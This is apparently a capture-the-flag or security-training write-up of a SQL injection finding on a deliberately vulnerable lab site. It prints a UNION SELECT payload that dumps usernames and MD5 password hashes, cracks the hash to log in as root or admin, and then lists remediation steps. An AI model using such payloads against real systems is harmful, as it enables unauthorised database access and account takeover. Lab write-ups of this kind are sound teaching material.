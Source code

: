 # Finding 01 - login - SQL injection

## Exploitability
Very easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.

## Risk level/type
OWASP top 10
- A02:2021 – Cryptographic Failures		using md5 encryption
- A03:2021 – Injection 					vulnerability to SQL injection


## Detailed description of the exploit
From previous SQL injection attempts (findings 2 and 7), we have found a table named "Member_Brute_Force"... let's see if it helps.
In a search input field (images or members), let's use the following SQL command:

```1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default```
which yields :
```
1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default
ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : root

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : admin
```
Both root and admin have the same password, which look like it was hashed with md5...

Let's use our web tool again:
https://www.md5online.org/md5-decrypt.html
It gives us:
shadow

We can try to login with either combo (root/shadow and admin/shadow) :
We arrive on a page that says:
"The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 "

## Remediation

Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.

## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068